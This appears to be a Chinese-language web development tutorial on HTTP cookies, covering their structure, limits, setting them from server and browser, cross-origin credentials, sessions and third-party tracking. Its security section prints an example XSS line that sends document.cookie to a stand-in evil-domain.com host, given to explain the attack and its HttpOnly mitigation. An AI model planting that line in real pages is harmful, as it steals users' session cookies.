


# HTTP Cookie

 - cookie是什么？
 - cookie是做什么用的
 - cookie的数据结构
 - cookie存储的数量、大小、时间
 - cookie如何设置
    - 服务器端操作
    - 浏览器端操作
    - 跨域时cookie的携带
- cookie的安全问题
- session介绍
- 第三方cookie

## 前言
网络早期最大的问题之一是如何管理状态。简而言之，服务器无法知道两个请求是否来自同一个浏览器。当时最简单的方法是在请求时，在页面中插入一些参数，并在下一个请求中传回参数。这需要使用包含参数的隐藏的表单，或者作为URL参数的一部分进行传递。这两个解决方案都手动操作，容易出错。所以网景公司当时一名员工Lou Montulli，在1994年将“cookies”的概念应用于网络通信，用来解决用户网上购物的购物车历史记录，目前所有浏览器都支持cookies。

## cookie是什么

HTTP Cookie（也叫Web Cookie或浏览器Cookie）是服务器发送到浏览器并保存在本地的一小块数据。

在同源情况下，首次请求保存后，后面的每次请求这块数据都会在请求头字段`Cookie`中带给服务器。

在不同源跨域情况下，如果需要携带当前域下的cookie发送到跨域的目标服务器，需要请求端设置相应的请求头及服务器端设置允许携带凭证的响应头。（后面会详细讲）。

> 补充：同源请求默认携带cookie仅限通过XMLHttpRequest实现的请求，最新的浏览器API： Fetch可以主动控制请求是否携带cookie，不管是同源还是跨域情况下的请求。Fetch通过选项参数 credentials= omit（忽略，即不管是同源请求还是跨域请求都不携带cookie） same-origin(同源请求时携带cookie) include(跨域请求时携带cookie) 2017年8月25日前，credentials默认值是omit，现在默认值是same-origin，保持与XMLHttpRequest表现一致。[MDN Fetch](https://developer.mozilla.org/zh-CN/docs/Web/API/Fetch_API/Using_Fetch)

## cookie的作用

因为HTTP会话，即HTTP连接或者说HTTP请求是无状态，所谓的无状态指的每次请求之间是没有关系的。

比如第一次请求登录了某个网站，第二次访问或后续的每一次访问请求都不会知道是不是已经是登录的状态，这就是HTTP连接或说HTTP请求的元状态。

比如要实现登录了该网站，后续访问都不需要再登录，即将登录状态持久化时就需要用到cookies。

所以cookie是用来维持HTTP会话状态的。常用在以下三个方面：

- 会话状态管理（如用户登录状态、购物车、游戏分数或其它需要记录的信息）----主要场景
- 个性化设置（如用户自定义设置、主题等）
- 浏览器行为跟踪（如跟踪分析用户行为等）----第三方cookie

## cookie的数据结构

我们知识cookie是保持在客户端的，可以在以下两个地方查看：
- 要查看保持在硬盘下当前用户的cookies文件，chrome浏览器可以在地址栏输入`about:version`，在打开页面中复杂“个人资料路径”在文件夹在打开，可以看到`Cookies`文件。
- 要查看当前页面域下保存的cookies值，可以在当前页面中打开开发者工具（快捷键F12，或者 ctrl+shift+i)，选择 `Application`面板，左侧菜单点击`Cookies`。


从上图中，可以看到一个完整的cookie数据的结构包括以下几部分：

字段 | 解释
--|--
Name | 数据的键名
Value | 数据的值
Domain | 指定了哪些主机域可以使用Cookie。如果不指定，默认为当前文档的域。设置主域下的cookie可以被子域使用
Path | 指定了主机域下的哪些路径可以使用Cookie（该路径必须存在于请求URL中）。以字符 %x2F ("/") 作为路径分隔符，子路径也会被匹配。默认值：/
Expires / Max-Age | 到期时间 / 储存时长，默认值 Session
Size | 大小，不同浏览器对单个cookie的大小限制不同，大约是4k左右。
HttpOnly | 仅服务器控制，浏览器不可操作，默认无限制
Secure | 仅在HTTPS协议的请求才发送给服务端，默认无限制
SameSite | 服务器要求某个cookie在跨域请求时不会被发送，从而可以阻止跨站请求伪造攻击（CSRF）。但目前SameSite Cookie还处于实验阶段，并不是所有浏览器都支持。

## cookie的数量、大小、时间

**数量**

浏览器允许每个域名下所包含的cookie数量：
- Microsoft指出InternetExplorer8增加cookie限制为每个域名50个，但IE7似乎也允许每个域名50个cookie。
- Firefox每个域名cookie限制为50个。
- Opera每个域名cookie限制为30个。
- Safari/Chrome貌似没有cookie限制。但是如果cookie很多，则会使header大小超过服务器的处理的限制，会导致错误发生。
注：“每个域名cookie限制为20个”将不再正确！

**单个cookie的大小**

- Firefox和Safari允许cookie多达4097个字节，包括名（name）、值（value）和等号。
- Opera允许cookie多达4096个字节，包括：名（name）、值（value）和等号。
- Internet Explorer允许cookie多达4095个字节，包括：名（name）、值（value）和等号。
- Google的Chrome浏览器好像超过4087个字节就无法存储。

所以单个cookie的大小基本约定在 4098 B / 1024 = 4 KB 左右。

**保持时间**

依据`Expires` 或 `Max-Age`字段值分为会话期Cookie 和 持久期Cookie

cookie的存储时间主要由`Expires` 或 `Max-Age`字段值决定，其中`Expires`是指该cookie的到期时间，`Max-Age`是指该cookie的存储时长，如果到期了或者超过存储时长，浏览器会自动将该cookie删除。这类有设置`Expires` 或 `Max-Age`字段值的叫做**持久期Cookie**。

```js
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT;
Set-Cookie: id=a3fWa; Max-Age=3600; // 1个小时
```

如果`Expires` 或 `Max-Age`字段都没有设置值，则会默认显示`Session`（见上图），表示只在当前会话期有效，当关闭当前页面后就会被清除。也叫**会话期Cookie**。


## cookie的设置

### 服务器端设置cookie

在服务器端响应请求时，通过响应头`Set-Cookie`字段设置数据，返回给客户端存储。当客户端请求时，浏览器会自动通过请求头`Cookie`带给服务器端。所以主要操作都是在服务器端在响应头`Set-Cookie`设置数据，以及服务器解析请求头`Cookie`的值。

`Set-Cookie`的值是一个字符串形式，但cookie是一个有结构的数据，所以这个字符串有一定的格式规定，cookie的各个字段值以`;`分隔。
```js
// 单个cookie值设置
response.setHeader('Set-Cookie', 'name=tom; domain=.example.com; path=/get; max-age=3600; httpOnly')

// 多个cookie值设置，以数值形式
response.setHeader('Set-Cookie', ['name=tom; domain=.example.com; path=/get; max-age=3600; httpOnly', 'age=20; max-age=3600'])
```
```js
// 解析cookie
const querystring = require('querystring');

const cookie = req.headers.cookie
console.log('cookie',cookie); // name=jerry; age=18 可以看到请求时浏览器携带cookie的值只包括 Name 和 Value
const cookieObj = querystring.parse(cookie, '; ', '=')
console.log('cookieObj', cookieObj); // { name: 'jerry', age: '18' }
```

### 浏览器端设置cookie

在浏览器中，主要通过js接口来操作当前域下的cookie

```js
document.cookie
```

读取cookie
```js
const cookie = document.cookie 
console.log(cookie)
// age: '18'
// 因为服务器对name=tom设置了httpOnly的值，所以此字段浏览器端无法操作包括获取删除等。如果去年httpOnly，将返回 name=jerry; age=18
```
添加cookie
```js
// 格式同服务器端设置set-cookie值一样。并且这个设置不会覆盖之前的cookie，只会添加一个
document.cookie = "hobby=basketball; path=/; max-age=3600";
// 只能单个设置，无法像服务器端一样设置多个cookie
document.cookie = ['hobby=basketball; max-age=10','uid=1'] // 只会取第一个
```
修改cookie
```js
// 向创建cookie一样，只要使用Name相同，旧cookie就会被覆盖
document.cookie = "hobby=basketball; path=/";
```
删除cookie
```js
// 删除 cookie 时不必指定 cookie 值,只需要指定 Name，然后设置Expires为一个过去的时间，浏览器就会自动删除
document.cookie = 'hobby=; expires=Thu, 01 Jan 1970 00:00:00 UTC'
```
在实际应用中，可以自己封装一些操作cookie的方法：`getCookie` `setCookie` `delCookie` `patchCookie`；也可以使用第三方库`js-cookie`

浏览器端也可以完全禁止任何网页设置cookie。(不建议禁用Cookie，因为一旦禁用Cookie，很多站点会不能访问。)

比如chorme浏览器：输入：`chrome://settings/content/cookies`打开设置面板

也可以通过一个JS的API来查看当前浏览器是否可以设置或读取cookie：
```js
// navigator.cookieEnabled 返回一个布尔值，来表示当前页面是否启用了 cookie。本属性为只读属性。
if (!navigator.cookieEnabled) { 
  // 浏览器不支持 cookie，或者用户禁用了 cookie。 do something
}
```

### 跨域携带cookie

在XMLHttpRequest的同域请求下，只要有cookie，每次请求默认都会携带请求头`Cookie`。但是当跨域请求时，默认是不会携带当前页面域下的cookie数据发送到另一个请求域的服务器。

如果要实现跨域请求携带cookie，需要客户端和服务端同时配置一些头字段。（前提是已经允许跨域访问了）

在客户端请求时，设置请求头
```js
// 原生 XMLHttpRequest
const xhr = new XMLHttpRequest()
xhr.withCredentials = true

// 原生Fetch
fetch(url, {
    method: 'GET',
    credentials: "include"
})

// 如果是jQuery的AJAX请求
 $.ajax({
    type: "POST",
    url: "http://xxx.com/api/test",
    dataType: 'jsonp', // jsonp跨域
    xhrFields: {withCredentials: true}, // 携带凭证
    crossDomain: true,
})

// axios
axios.defaults.withCredentials=true;
```
服务端设置响应头：
```js
// 前提是允许跨域，与跨域请求相关的头
Access-Control-Allow-Methods
Access-Control-Allow-Headers
Access-Control-Max-Age
Access-Control-Expose-Headers

// 与跨域允许携带凭证相关的头字段
response.setHeader("Access-Control-Allow-Credentials", true)
response.setHeader("Access-Control-Allow-Origin", "http://www.xxx.com") 
// 当Access-Control-Allow-Credentials=true时，Access-Control-Allow-Origin值必须明确哪个域。如果设置 * 仍然会报错
```

## cookie的安全问题

Cookie曾一度用于客户端数据的存储，因当时并没有其它合适的存储办法而作为唯一的存储手段，但现在随着现代浏览器开始支持各种各样的存储方式（如LocalStorage、SessionStorage、indexedDB、Cache Storage等)，Cookie渐渐被淘汰。

cookie主要有以下问题
1. 由于服务器指定Cookie后，浏览器的每次请求都会携带Cookie数据，会带来额外的性能开销
1. cookie在客户端也可以通过`document.cookie`来操作，容易造成 XSS 和 CSRF 攻击。
1. 如果单纯用cookie来存储数据，大小和数量都有限制。

**网络窃听**

网络上的流量可以被网络上任何计算机拦截，特别是未加密的开放式WIFI。这种流量包含在普通的未加密的HTTP清求上发送Cookie。在未加密的情况下，攻击者可以读取网络上的其他用户的信息，包含HTTP header中Cookie的全部内容，以便进行中间的攻击。比如：拦截cookie来冒充用户身份执行恶意任务（银行转账等）。

解决办法：服务器可以设置secure属性的cookie，这样就只能通过https的方式来发送cookies了。

**XSS攻击**

Cookie常用来标记用户或授权会话。因此，如果Web应用的Cookie被窃取，可能导致授权用户的会话受到攻击。常用的窃取Cookie的方法比如利用应用程序漏洞进行XSS的攻击：

```js
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```
点击网页的某张图片链接时，本地的cookie就会被对方获取到进行分析利用。

解决方法：HttpOnly类型的Cookie由于阻止了JavaScript对其的访问性而能在一定程度上缓解此类攻击。


**跨站请求伪造CSRF**

例如，SanShao可能正在浏览其他用户XiaoMing发布消息的聊天论坛。假设XiaoMing制作了一个引用ShanShao银行网站的HTML图像元素，例如，
```
 
```
如果SanShao的银行将其认证信息保存在cookie中，并且cookie尚未过期，那么SanShao点击该图片时，浏览器尝试加载该图片，因为图片链接的源与本地保存的cookie的银行网站的域相同，就会带上之前使用银行网站保持的cookie提交提款表单，从而在未经SanShao批准的情况下授权交易。

解决办法：增加其他信息的校验（手机验证码，或者其他盾牌）。

所以网站敏感和重要的数据都不会建议使用cookie来传递。比如登录用户名和密码等，但又需要cookie来保持会话状态，比如登录状态，这时就可以用session来解决这个会话状态保持的问题。

## session

Session，即会话，是Web开发中的一种会话状态跟踪技术。当然，前面所讲述的Cookie也是一种会话跟踪技术。不同的是Cookie是将会话状态保存在了客户端 ，而Session则是将会话状态保存在了服务器端。

那么，到底什么是“会话”?当用户打开浏览器，从发出第一次请求开始 ，一直到最终关闭浏览器，就表示一次会话的完成。

Session无法单独使用，需要配合Cookie完成功能，但比Cookie安全。

举例：原来我们把登录用户名username保持在cookie中，如下面这样：
```js
response.setHeader('Set-Cookie', 'username=tom; max-age=3600')
```
因为安全性，我们使用session来保存用户登录状态，常用做法是：

1. 首次登录请求时，将用户名通过键值对存放在服务器内存中（常用redis存储，redis常称为内存数据库），键就是session_id，值就是用户名，如 `{session_id: 'username=tom&password=123'}`
1. 将这个session_id设置到cookie中保存`response.setHeader('Set-Cookie', 's_id=session_id; max-age=86400')`
1. 后续每次请求都是会带上这个session_id，服务器通过这个session_id在去查找对应的数据，看是否存在，存在则为已登录过。


所以本质上：session技术就是一种将数据存储在服务器内存中的技术。


## 第三方cookie，即浏览器行为跟踪（如跟踪分析用户行为等）

通常cookie的域和浏览器地址的域匹配，这被称为第一方cookie。那么第三方cookie就是cookie的域和地址栏中的域不匹配，这种cookie通常被用在第三方广告网站。为了跟踪用户的浏览记录，并且根据收集的用户的浏览习惯，给用户推送相关的广告。



图（a）：

用户访问服务器1的一个页面index.html，这个页面和第三方广告网站合作，这个页面还有一张http://www.advertisement.com域名下的一张广告图ad1.jpg，当点击这张ad1.jpg图片的时候，发起一个请求，http://www.advertisement.com这个服务器会给用户设置cookie 

记录用户的浏览记录，分配一个user来表示用户的身份。
```js
Set-Cookie: user="wang";like="a"; domain="advertisement.com" 
```

图（b）：

用户访问服务器2的一个index.html页面，这个页面也和同一家广告商合作，这个页面也包含一张http://www.advertisement.com域名下的一张广告图ad2.jpg，当点击这张ad2.jpg图片的时候，浏览器向http://www.advertisement.com发送请求时，就会携带图（a)时设置的cookie，因为该cookie的domain与请求的源相同。
```
Cookie:  user="wang"; like="a"; 
```
http://www.advertisement.com收到浏览器发送的cookie识别了用户的身份，同时又把这个页面用户的浏览数据设置cookie返回给浏览器：
```
Set-Cookie: buy="b"; domain="advertisement.com" 
```

图（c）：

很巧，用户访问服务器3的一个index.html页面，这个页面也和同一家广告商合作，这个页面也包含一张http://www.advertisement.com域名下的一张广告图ad3.jpg，当点击这张ad3.jpg图片的时候，浏览器就会向http://www.advertisement.com发送之前两次设置的cookie
```
Cookie:  user="wang"; like="a"; buy="b" 
```
如些不断的浏览网页，广告公司后台就会不断收集和积累该用户的浏览数据，根据用户的浏览习惯，分析出用户的喜好，给用户推送合适的广告。

**参考链接**

[MDN HTTP cookies](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Cookies)<br>
[这一次带你彻底了解Cookie](https://zhuanlan.zhihu.com/p/31852168)